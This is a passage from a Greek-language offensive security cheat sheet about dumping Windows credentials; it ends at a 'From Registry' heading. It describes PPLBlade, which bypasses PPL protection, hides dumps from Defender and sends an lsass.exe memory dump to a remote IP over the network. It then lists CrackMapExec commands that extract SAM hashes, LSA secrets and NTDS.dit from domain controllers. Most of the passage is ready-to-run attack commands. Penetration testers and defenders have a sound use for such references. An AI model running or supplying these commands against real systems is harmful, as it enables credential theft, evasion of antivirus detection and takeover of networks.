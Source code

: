 [**PPLBlade**](https://github.com/tastypepperoni/PPLBlade) είναι ένα εργαλείο εκφόρτωσης προστατευμένων διαδικασιών που υποστηρίζει την απόκρυψη εκφορτώσεων μνήμης και τη μεταφορά τους σε απομακρυσμένους σταθμούς εργασίας χωρίς να τις αποθηκεύει στον δίσκο.

**Κύριες λειτουργίες**:

1. Παράκαμψη προστασίας PPL
2. Απόκρυψη αρχείων εκφόρτωσης μνήμης για να αποφευχθούν οι μηχανισμοί ανίχνευσης βασισμένοι σε υπογραφές του Defender
3. Μεταφόρτωση εκφόρτωσης μνήμης με μεθόδους RAW και SMB χωρίς να αποθηκεύεται στον δίσκο (χωρίς αρχείο εκφόρτωσης)

{% code overflow="wrap" %}
```bash
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```
{% endcode %}

## CrackMapExec

### Εξαγωγή SAM hashes
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```
### Εκχύλιση μυστικών LSA
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```
### Εκχύλισμα το NTDS.dit από τον στόχο DC
```
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```
### Εξαγωγή του ιστορικού κωδικών πρόσβασης NTDS.dit από τον στόχο DC
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```
### Εμφάνιση του χαρακτηριστικού pwdLastSet για κάθε λογαριασμό NTDS.dit
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```
## Stealing SAM & SYSTEM

Αυτά τα αρχεία θα πρέπει να **βρίσκονται** στο _C:\windows\system32\config\SAM_ και _C:\windows\system32\config\SYSTEM._ Αλλά **δεν μπορείτε απλώς να τα αντιγράψετε με κανονικό τρόπο** επειδή είναι προστατευμένα.

### From Registry
